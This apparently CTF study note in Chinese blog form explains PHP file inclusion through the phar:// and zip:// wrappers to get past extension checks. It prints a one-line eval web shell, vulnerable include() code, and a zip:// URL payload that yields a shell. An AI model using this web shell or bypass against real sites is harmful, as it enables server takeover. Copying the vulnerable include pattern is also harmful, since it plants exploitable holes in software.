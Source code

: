 ```yaml
---
layout: post
title: 'php利用伪协议文件包含'
subtitle: 'zip和phar文件包含'
date: 2021-05-24
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 bugku刷题
---
```

### phar文件包含
phar协议要求：php大于5.3.0

需要将php.ini的参数phar.readonly设置为off

这个方法适用于验证包含文件为特定后缀时。

使用Phar://伪协议流可以Bypass一些上传的waf，大多数情况下和文件包含一起使用，就类似于我们的压缩包（其实就是一个压缩包），只不过我们换了一种方式去执行而已
> 本地测试：

test.php:
<?php @eval($_POST["cmd"]);?>

然后将test.php压缩，将压缩文件改后缀为.jpg

index.php:
<?php 
include('phar://./test.jpg/test.php');
?>

> 成功包含

![](https://1024861435.github.io/assets/img/1.jpg)

### zip协议包含文件
zip协议要求：php版本要求大于等于5.3.0

这个方法适用于验证包含文件为特定后缀时。 例如以下代码

<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
	include($file);
}
?>

或者
<?php
$file = $_GET['file'];
include($file.'.jpg');
?>

上面的代码一个验证了后缀是否为jpg，一个是直接添加了jpg后缀，然后才包含。对于现在这种情况，要包含php文件的话的，可以通过截断。但是\x00的截断在php>5.3.4就没用了，而且还要考虑GPC,所以是比较鸡肋的方法。其实我们可以通过zip协议和phar协议来包含文件。

> zip://

首先我们新建一个zip文件，里面压缩着一个php脚本。

![](https://1024861435.github.io/assets/img/2.png)

然后我们构造zip://php.zip#php.jpg

访问http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg

![](https://1024861435.github.io/assets/img/3.png)

这样就成功shell了。

参考:https://xz.aliyun.com/t/3692

https://bl4ck.in/tricks/2015/06/10/zip%E6%88%96phar%E5%8D%8F%E8%AE%AE%E5%8C%85%E5%90%AB%E6%96%87%E4%BB%B6.html

https://lightless.me/archives/include-file-from-zip-or-phar.html

